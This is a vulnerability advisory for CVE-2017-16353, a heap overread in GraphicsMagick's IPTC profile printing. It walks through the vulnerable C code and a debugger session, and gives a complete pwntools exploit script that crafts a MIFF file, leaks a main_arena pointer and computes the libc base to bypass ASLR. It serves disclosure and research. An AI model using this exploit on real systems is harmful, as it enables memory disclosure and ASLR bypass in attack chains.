```yaml
---
title: "GraphicsMagick Information Disclosure when Describing IPTC Profile (CVE-2017-16353)"
header:
  overlay_image: /assets/images/cve-2017-16353/header.jpg
  overlay_filter: 0.5
  caption: "Photo credit: Life is Strange Stills by Me"
tags:
  - vulnresearch
  - graphicsmagick
  - infoleak
---
```


A heap-based buffer overread in the code responsible for printing IPTC
information verbosely allows an attacker to leak sensitive information by
supplying a specially crafted MIFF file.

This vulnerability was reported as part of the Beyond Security SecuriTeam Secure
Disclosure program. It is also published on their blog at
[https://blogs.securiteam.com/index.php/archives/3494](https://blogs.securiteam.com/index.php/archives/3494).

## Affected Versions

The current release (1.3.26) is affected. Further analysis is required to
determine which versions are also affected by the vulnerability.

## Vulnerability Scores

* Classification:
    * CWE-126: Buffer Over-read
    * CWE-200: Information Exposure
* CVSSv3: 6.5 (AV:N/AC:L/PR:N/UI:R/S:U/C:H/I:N/A:N)

## Description

The vulnerable component is present in the `DescribeImage` function of the
`magick/describe.c` file. The portion of the code containing the vulnerability
deals with printing the IPTC Profile information contained in the image. This
vulnerability can be triggered with a specially crafted MIFF file.

```c
 63 MagickExport MagickPassFail DescribeImage(Image *image,FILE *file,
 64                                           const MagickBool verbose)
 65 {
...
660       for (i=0; i < profile_length; )
661         {
662           if (profile[i] != 0x1c)
663             {
664               i++;
665               continue;
666             }
667           i++;  /* skip file separator */
668           i++;  /* skip record number */
...
725           i++;
726           (void) fprintf(file,"    %.1024s:\n",tag);
727           length=profile[i++] << 8;
728           length|=profile[i++];
729           text=MagickAllocateMemory(char *,length+1);
730           if (text != (char *) NULL)
731             {
732               char
733                 **textlist;
734
735               register unsigned long
736                 j;
737
738               (void) strncpy(text,(char *) profile+i,length);
739               text[length]='\0';
740               textlist=StringToList(text);
741               if (textlist != (char **) NULL)
742                 {
743                   for (j=0; textlist[j] != (char *) NULL; j++)
744                     {
745                       (void) fprintf(file,"  %s\n",textlist[j]);
...
752           i+=length;
753         }
```

The value in the `profile_length` variable is set in the following field in the
MIFF header.

```
profile-iptc=8
```

There exists an out-of-bounds buffer dereference whenever `profile[i]` is
accessed because the increments of `i` is never checked. This could lead to
undefined behaviour and impact.

However, there is an additional exploitable bug. Since the `length` passed to
the `strncpy` call on line 738 is specified by two user supplied bytes (lines
727-728), an arbitrary amount (up to 65535 bytes) of data can be read from the
heap. However, the use of a string manipulation function makes it tricky to
retrieve a large amount of useful data. It is not impossible, however, to read a
number of bytes from the heap to leak critical `main_arena` malloc state struct
information to bypass address space layout randomisation (ASLR) when used in
conjunction with another vulnerability. Please see the Proof of Concept section
for details.

## Proof of Concept

For the proof of concept, we will be using the build offered by `apt-get` in
Ubuntu 16.04 x64. If we break on line 738 of `describe.c`, we can explore what
is present on the heap during the `strncpy` operation.

```
gef➤  x/2xg profile
0x8be210:    0x08000a001c414141    0x00007ffff690fba8
```

The 8 bytes `0x08000a001c414141` is the profile payload present in the specially
crafted MIFF file. Note that the `profile-iptc=8` field is set to indicate that
the size of the profile is 8 bytes long. This is important to properly set the
layout of the heap and to allow `strncpy` to retrieve the right bytes we want.

To break the payload down:

```
41 41 41 - padding
1C - sentinel check in line 662
00 - padding
0A - "Priority" tag
08 00 - 8 in big endian, the length
```

If we examine the value `0x00007ffff690fba8` adjacent to the payload, it
becomes apparent that it is an address within the `main_arena` struct in libc.

```
gef➤  x/xw 0x00007ffff690fba8
0x7ffff690fba8 <main_arena+136>:    0x008cdc40
gef➤  vmmap libc
Start              End                Offset             Perm Path
0x00007ffff654b000 0x00007ffff670b000 0x0000000000000000 r-x
/lib/x86_64-linux-gnu/libc-2.23.so
0x00007ffff670b000 0x00007ffff690b000 0x00000000001c0000 ---
/lib/x86_64-linux-gnu/libc-2.23.so
0x00007ffff690b000 0x00007ffff690f000 0x00000000001c0000 r--
/lib/x86_64-linux-gnu/libc-2.23.so
0x00007ffff690f000 0x00007ffff6911000 0x00000000001c4000 rw-
/lib/x86_64-linux-gnu/libc-2.23.so
```

Doing some math shows that the offset to libc base is `0x3c4b98`. This means
that we can successfully calculate libc base from the leak for use in
conjunction with another vulnerability to obtain a reliable exploit that
bypasses ASLR.

The full exploit script to demonstrate this is as follows:

```python
#!/usr/bin/python
# GraphicsMagick IPTC Profile libc Leak
# by Jeremy Heng (@nn_amon)

from pwn import *

directory = "DIR"
partitions = ('id=ImageMagick  version=1.0\nclass=DirectClass  matte=False\n' +
              'columns=1  rows=1  depth=16\nscene=1\nmontage=1x1+0+0\nprofil' +
              'e-iptc=',
              '\n\x0c\n:\x1a',
              '\n\x00',
              '\n\x00\xbe\xbe\xbe\xbe\xbe\xbe\n')
output = "readexploit.miff"
length = 8

#libc_main_arena_entry_offset = 0x3c4ba8
libc_main_arena_entry_offset = 0x3c4b98

def main():
    data = "AAA" + "\x1c" + "\x00" + chr(10) + p16(0x8, endian="big")
    header = partitions[0] + str(length) + partitions[1]
    payload = header + directory + partitions[2] + data + partitions[3]
    file(output, "w").write(payload)

    p = process(executable="gm", argv=["identify", "-verbose", output])
    output_leak = p.recvall()
    priority_offset = output_leak.index("Priority:") + 12
    montage_offset = output_leak.index("Montage:") - 3
    leak = output_leak[priority_offset:montage_offset]
    if "0x00000000" in leak:
        log.info("Unlucky run. Value corrupted by StringToList")
        exit()
    main_arena_leak = u64(leak.ljust(8, "\x00"))
    log.info("Main Arena Leak: 0x%x" % main_arena_leak)
    libc_base = main_arena_leak - libc_main_arena_entry_offset
    log.info("libc Base: 0x%x" % libc_base)

if __name__ == "__main__":
    main()
```

Running the exploit:

```shell
$ python miff/readexploit.py
[+] Starting local process '/usr/bin/gm': pid 20019
[+] Receiving all data: Done (1.27KB)
[*] Process '/usr/bin/gm' stopped with exit code 0 (pid 20019)
[*] Main Arena Leak: 0x7f72948adb98
[*] libc Base: 0x7f72944e9000
```

## Credit

This issue was discovered by Terry Chia (@ayrx) and Jeremy Heng (@nn\_amon).

## Timeline

* 10 Oct 2017 - Discovery of the vulnerability.
* 17 Oct 2017 - Reporting of the vulnerability to Beyond Security under the
  SecuriTeam Secure Disclosure program.
* 1 Nov 2017 - Bounty paid and vulnerability disclosed on the Beyond Security
  SecuriTeam Secure Disclosure blog.
* 2 Nov 2017 - CVE-2017-16353 assigned.
